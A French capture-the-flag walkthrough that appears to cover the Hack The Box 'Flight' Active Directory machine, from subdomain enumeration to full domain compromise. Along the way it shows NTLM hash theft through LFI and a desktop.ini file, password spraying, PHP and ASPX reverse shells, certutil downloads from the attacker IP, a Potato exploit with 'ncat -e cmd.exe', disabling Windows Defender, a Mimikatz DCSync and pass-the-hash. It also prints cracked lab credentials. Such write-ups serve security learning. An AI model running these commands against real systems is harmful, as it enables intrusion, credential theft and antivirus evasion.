








## Découverte des services exposés
Nous sommes face à ce qui ressemble à un controlleur de domaine Active Directory exécutant un service Web sur le port 80
```
$ sudo nmap -sS -Pn -T5 -oA nmap $TARGET_IP
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

### Partages
L'authentification nulle nous permet de récupérer le nom DNS.
```

$ cme smb $TARGET_IP -u "" -p "" | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
      [+] flight.htb\: 

```

### Site Web (port 80)

Nous sommes face à un site web ne disposant que de fonctionnalités statiques


Les actions suivantes n'offrent aucun vecteur d'attaque :

- La recherche d'erreurs de configuration : `nikto -h http://$TARGET_VHOST`
- La recherche de dossiers intéressant : `gobuster dir -u http://$TARGET_VHOST:80/ -w "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" -t 50 --add-slash`
- La recherche d'enregistrements DNS `gobuster dns -d flight.htb -r $TARGET_IP -t 50 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

### Découverte du nom de domaine school.flight.htb
On découvre un second site à l'adresse http://school.flight.htb en menant une attaque par dictionnaire sur les sous domaines de `flight.htb` :

```
└─$ gobuster vhost --append-domain flight.htb --url flight.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://flight.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/08 04:25:23 Starting gobuster in VHOST enumeration mode
===============================================================
Found: school.flight.htb Status: 200 [Size: 3996]
Progress: 4910 / 4990 (98.40%)
===============================================================
2023/03/08 04:25:38 Finished
===============================================================

```

### Présence d'une LFI sur la page d'accueil 



En cliquant sur le lien `Home` on découvre que le fichier `index.php` affiche des pages via le  paramètre `view`. Après vérification il est vulnérable à une **LFI** nous permettant de récupérer le hash du compte de service utilisé par le serveur web.

## Exploitation de la LFI 

On lance un responder avec la commande `responder -i tun0` et on tente d'inclure un chemin UNC dans notre requête :



On observe la capture du hash du compte `svc_apache` dans `responder`



Le hash récupéré est cassé rapidement à l'aide de `john` et nous offre un premier compte :

| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\svc_apache` | `S@Ss!K@*t13 ` |

## Enumération des autorisations de svc_apache

L'utilisateur dispose de droits en lecture sur un certain nombre de partages :

```

└─$ cme smb $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN" --shares | cut -c60- 
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
  if result['type'] is not 'searchResEntry':
      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
      [+] flight.htb\svc_apache:S@Ss!K@*t13 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON        READ            Logon server share 
      Shared          READ            
      SYSVOL          READ            Logon server share 
      Users           READ            
      Web             READ            
```

Cela ne nous offre néanmoins pas de possibilité d'élever nos privilèges.

### Réutilisation du mot de passe sur d'autres comptes
Graâce à ce compte, nous pouvons tout de même énumérer la liste des comptes utilisateurs de l'annuaire Active Directory et vérifier si le mot de passe en notre possession n'est pas utilisé par un autre compte.

Nous découvrons que l'utilisateur `s.moon` utilise le même mot de passe que le compte `svc_apache` :
```
# Creation d'une liste d'utilisateur a attaquer
cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --users | tr -s ' ' | tail -n +4 | cut -d ' ' -f 5 | cut -d '\' -f 2 | tee users.txt

# Password spraying sur cette liste d'utilisateurs
cme smb $TARGET_IP -u users.txt -p $AD_PASSWORD --continue-on-success
```

Nous obtenons ainsi l'accès à un nouveau compte :
| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\S.Moon` | `S@Ss!K@*t13 ` |


## Enumération des autorisations de S.Moon

Cet utilisateur possède un droit d'écriture sur le dossier `Shared` :
```
# Présence d'un droit d'écriture sur le partage Shared
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60-
      Shared          READ,WRITE      
```
Ce dossier est vide et ne semble pas accepter la création de nouveau fichiers.
On constate que l'on peut créer des dossiers, mais la création de fichiers ne semble pas fonctionner.

Après un temps de recherche important, on découvre que cette partie du challenge est finalement totalement iréaliste (mais cela fait partie du jeu dans les CTF : en effet, la création de fichiers `.ini` est autorisée. (A quoi cela servirait dans la vrai vie, encore plus sur un partage nommé `Shared` ?).

Une fois cette découverte réalisée en se dirige vers les techniques classiques de vole de hash très bien expliqué sur [HackTricks](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)

- On lance donc le responder sur l'interface VPN : `sudo responder -i tun0`
- On crée donc un fichier `desktop.ini` contenant les éléments suivants :
```text title="desktop.ini"
[.ShellClassInfo]
IconFile=\\10.10.14.149\blah
IconIndex=1337
```

On upload ensuite ce fichier :

- soit avec smbmap
```shell title="upload du fichier"
smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload desktop.ini Share/desktop.ini
```
- Ou avec smbclient.py :
```shell
$ smbclient.py "$AD_DOMAIN/$AD_USER:$AD_PASSWORD@$TARGET_IP"
use shared
put desktop.ini
```
 
- On attend quelques instants et on récupère le hash d'un nouvel utilisateur :

- Que l'on s'empresse de casser avec la commande `john --wordlist=/usr/share/wordlists/rockyou.txt SMB-NTLMv2-SSP-10.10.11.187.txt`

On récupère ainsi un nouvel utilisateur :

| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\c.bum` | `Tikkycoll_431012284` |

## Enumération des autorisations de c.bum

On vérifie si cet utilisateur dispose d'avantage de permissions sur les partages :
```
$ cme smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --shares | cut -c60- | grep -i WRITE
      Shared          READ,WRITE      
      Web             READ,WRITE  
```

On reconnaît dans le partage Web une arborescence qui est en fait celle des 2 virtual hosts précédemment énuméré.

## Obtention d'un premier shell 
L'accès à ce partage étant en écriture, on a (enfin) la possibilité d'obtenir un reverse shell

On upload un reverse shell PHP puis on l'exécute :
- On lance un listener avec `rlwrap nc -lnvp 1337`
- On edite [le fichier](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php) pour configurer l'IP et le port de notre listener
- On l'upload : `smbmap -u $AD_USER -p $AD_PASSWORD -d $AD_DOMAIN -H $TARGET_IP --upload revshell.php Web/school.flight.htb/rebrec1.php
- On exécute finalement le reverse shell : `curl -X GET http://$TARGET_IP/rebrec1.php -H "Host: school.flight.htb"`

On obtient ainsi un premier shell en tant qu'utilisateur `svc_apache`


## Elevation de privilèges en tant que c.bum

On utilise ensuite l'outil `RunasCs.exe` pour exécuter un nouveau reverse shell en tant que `c.bum` :
- On lance un listener : `rlwrap nc -lnvp 1338`
- On télécharger notre outil :
```shell title="Téléchargement d'un fichier à l'aide de certutil"
certutil.exe -urlcache -split -f "http://10.10.14.149:1234/RunasCS.exe" RunasCS.exe
certutil.exe -urlcache -split -f "http://$($LHOST):$LPORTW_WIN_TOOLS/$File" $Dest
```
- On exécute le reverse shell :
```
RunasCS.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.149:1338                                                                                                              
```

### Enumération locale
On constate la présence du dossier `c:\inetpub`, dossier caractéristique de la présence d'un serveur web IIS.

Cette fonctionnalité est toujours installée :

```powershell
PS C:\> get-windowsfeature web-server | fl DisplayName, InstallState

DisplayName  : Web Server (IIS)
InstallState : Installed
```

Et le processus est en cours d'exécution :

```powershell
PS C:\xampp\htdocs\school.flight.htb> Get-Process w3wp

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    497      40    76040      63584              4360   0 w3wp              
```

Après vérification, on constate que `c.bum` dispose de droits en écriture sur le dossier à l'aide de la commande `accesschk.exe -accepteula -w c:\inetpub` (il faut au préalable l'uploader sur la machine)



### Elevation de privilèges

#### Upload du reverse shell
On upload donc un reverse shell dans le dossier `c:\inetpub\development`. Le reverse shell doit être un fichier `.aspx`, on utilise [celui-ci](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) après avoir modifier son entête pour y configurer notre adresse IP et port sur lequel s'exécutera un nouveau listerner que l'on lance une fois de plus avec `rlwrap nc -lnvp 1339`

#### Exécution
Pour trouver sur quel port le service IIS est en écoute, nous utilisons la commande suivante :

```
PS > Get-NetTCPConnection -State Listen | Select-Object -Property @{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}},LocalPort

ProcessName                           LocalPort
-----------                           ---------
dfsrs                                     49731
dns                                       49694
services                                  49682
lsass                                     49674
lsass                                     49673
lsass                                     49667
svchost                                   49666
svchost                                   49665
wininit                                   49664
System                                    47001
Microsoft.ActiveDirectory.WebServices      9389
System                                     8000
System                                     5985
lsass                                      3269
lsass                                      3268
lsass                                       636
svchost                                     593
lsass                                       464
System                                      445
httpd                                       443
lsass                                       389
svchost                                     135
lsass                                        88
httpd                                        80
dns                                          53
dns                                          53
dns                                          53
dns                                          53
dfsrs                                     49731
dns                                       49694
services                                  49682
lsass                                     49674
lsass                                     49673
lsass                                     49667
svchost                                   49666
svchost                                   49665
wininit                                   49664
Microsoft.ActiveDirectory.WebServices      9389
lsass                                      3269
lsass                                      3268
lsass                                       636
svchost                                     593
httpd                                       443
lsass                                       389
System                                      139
svchost                                     135
httpd                                        80
dns                                          53
dns                                          53
```

Le résultat obtenu ne nous permet pas directement d'identifier le ports en écoute car cette commande n'affiche pas le nom des processus de privilèges plus élevés.
Ainsi, un certain nombre de lignes ont pour nom de processus `System` au lieu du processus réel (`w3wp` dans notre cas).

Après élimination des processus autre que `System`, nous obtenons la liste de ports potentiels suivante :
```
PS > Get-NetTCPConnection -State Listen | Select-Object -Property @{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}},LocalPort | ? {$_.ProcessName -eq 'system'}

ProcessName LocalPort
----------- ---------
System          47001   ?
System           8000   ?
System           5985   ?
System            445   <== microsoft-ds
System            139   <== netbios-ssn
```

Il nous reste donc 3 ports à tester.
Nous utilisons depuis notre shell le CmdLet powershell `Invoke-WebRequest` :

```
PS C:\rebrec> iwr http://127.0.0.1:8000 -outfile a.html -v
VERBOSE: GET http://127.0.0.1:8000/ with 0-byte payload
VERBOSE: received 45949-byte response of content type text/html
```

Les autres ports testés ne retournaient pas de données. Nous savons donc que le service s'exécute très probablement sur le port 8000

Le reverse shell `.aspx` copié dans le dossier `c:\inetpub\development`, nous l'exécutons via la commande powershell :
```
PS C:\rebrec> iwr http://127.0.0.1:8000/revshell.aspx -outfile a.html
```

et obtenons un shell en tant que :
```
c:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

## Escalade de privilèges vers System 

Nous découvrons rapidement que le compte `iis apppool\defaultapppool` dispose du privilèges `SeImpersonatePrivilege`, nécessaire à l'exploitation des vulnérabilités de la famile des "Potato" (RoguePotato, etc.)

Après une brève lecture sur ce type d'attaques sur [cette page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer) d'hacktricks, on télécharger[SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato), qui, une fois compilé avec visual studio, puis uploadé sur notre cible nous permet de lancer un dernier reverse shell en tant que `SYSTEM`

Pour ce faire, on uploadera l'utilitaire `ncat.exe` et on exécutera :
```
SharpEfsPotato.exe -p ncat.exe -a "10.10.14.149 1500 -e cmd.exe"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/0e8462f4-fa42-4fbe-9dcf-eefc70c83679/\0e8462f4-fa42-4fbe-9dcf-eefc70c83679\0e8462f4-fa42-4fbe-9dcf-eefc70c83679
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

```

```shell title="reverse shell en tant que SYSTEM"

C:\Windows\system32>whoami
whoami
nt authority\system

# On récupère le flag avec la commande
type c:\users\administrator\desktop\root.txt
```

## Bonus : compromission totale de l'Active Directory

Pour le plaisir, et dans l'optique de simuler une action de persistance sur l'active directory, on va maintenant récupérer la base NTDS.DIT (base de donnée contenant les hashes de tous les comptes utilisateurs de l'active directory).

Nous utiliserons l'outil le plus connu à savoir, l'incontournable `Mimikatz`.
Cet outil était détecté par tous les antivirus qui se respecte, nous vérifions tout d'abord si un Anti Virus s'exécute sur la machine en affichant la liste des processus s'exécutant sur la machine :

```powershell
PS > get-process | Select Name | sort 
#[...]
MsMpEng
#[...]
```

On reconnaît le processus `MsMpEng` qui est le module anti malware de Windows Defender.

On le désactive en suspendant ce processus : 

```
# on dépose sur la machine pssuspend.exe depuis live.sysinternals.com

PS > ./pssuspend.exe -accepteula MsMpEng

PsSuspend v1.07 - Process Suspender
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals

Process MsMpEng suspended.
```

On peut maintenant agir sans risquer de se faire détecter par Windows Defender :

- On upload `Mimikatz.exe`
- On exécute ensuite : `mimikatz.exe "lsadump::dcsync /domain:flight.htb /all /csv"`


### Vérification des accès

Grace à ces hashes collectés, nous pourrons nous reconnecter via l'attaque *Pass The Hash* à distance à la machine en tant qu'administrateur du domaine, sans disposer du mot de passe de cet utilisateur :

### Accès distant

=== "wmiexec.py"
	```shell title="Utilisation du Hash NT récupéré avec wmiexec.py"
	$ wmiexec.py  -hashes :43bbfc530bab76141b12c8446e30c17c -dc-ip $TARGET_IP flight.htb/Administrator@$TARGET_IP whoami
	Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
	
	[*] SMBv3.0 dialect used
	flight\administrator
	```

=== "psexec.py"
	```shell title="Utilisation du Hash NT récupéré avec psexec.py"
	$ psexec.py Administrator@$TARGET_IP -hashes :43bbfc530bab76141b12c8446e30c17c
	Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
	
	[*] Requesting shares on 10.10.11.187.....
	[*] Found writable share ADMIN$
	[*] Uploading file BVTQqKla.exe
	[*] Opening SVCManager on 10.10.11.187.....
	[*] Creating service gxjC on 10.10.11.187.....
	[*] Starting service gxjC.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.2989]
	(c) 2018 Microsoft Corporation. All rights reserved.
	
	C:\Windows\system32> whoami
	nt authority\system
	```

=== "crackmapexec.py"
	```shell title="Utilisation du Hash NT récupéré avec crackmapexec"
	└─$ cme smb $TARGET_IP -u Administrator -H 43bbfc530bab76141b12c8446e30c17c --shares | cut -c60-
	      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
	      [+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
	      [+] Enumerated shares
	      Share           Permissions     Remark
	      -----           -----------     ------
	      ADMIN$          READ,WRITE      Remote Admin
	      C$              READ,WRITE      Default share
	      IPC$            READ            Remote IPC
	      NETLOGON        READ,WRITE      Logon server share 
	      Shared          READ            
	      SYSVOL          READ            Logon server share 
	      Users           READ            
	      Web             READ            
	```

Le gros intérêt de la récupération des Hash réside dans le fait que l'on ne modifie pas le mot de passe du compte. L'utilisateur peut donc ne pas se rendre compte que son compte est compromis.

Cette accès restera fonctionnel tout pendant que le mot de passe de cet utilisateur ne sera pas modifié (et donc son hash).
